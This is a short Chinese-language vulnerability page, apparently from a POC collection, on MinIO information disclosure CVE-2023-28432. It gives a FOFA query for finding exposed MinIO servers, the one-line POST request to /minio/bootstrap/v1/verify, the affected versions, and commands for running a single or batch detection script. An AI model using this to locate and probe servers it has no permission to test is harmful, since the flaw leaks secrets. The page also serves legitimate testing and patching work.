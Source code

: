 # MinIO云存储信息泄露漏洞 CVE-2023-28432
## 资产收集
fofa：`app="minio"`
![](./img/logo.png)
## POC
```
POST /minio/bootstrap/v1/verify HTTP/1.1
```
## 影响版本
MinIO 2019-12-17T23-16-33Z <= MinIO < 2023-03-20T20-16-18Z
## 检测脚本
[minio_unauthcheck.py](./file/minio_unauthcheck.py)  
单个：`python3  minio_unauthcheck.py -u`  
批量：`python3 minio_unauthcheck.py -f url.txt`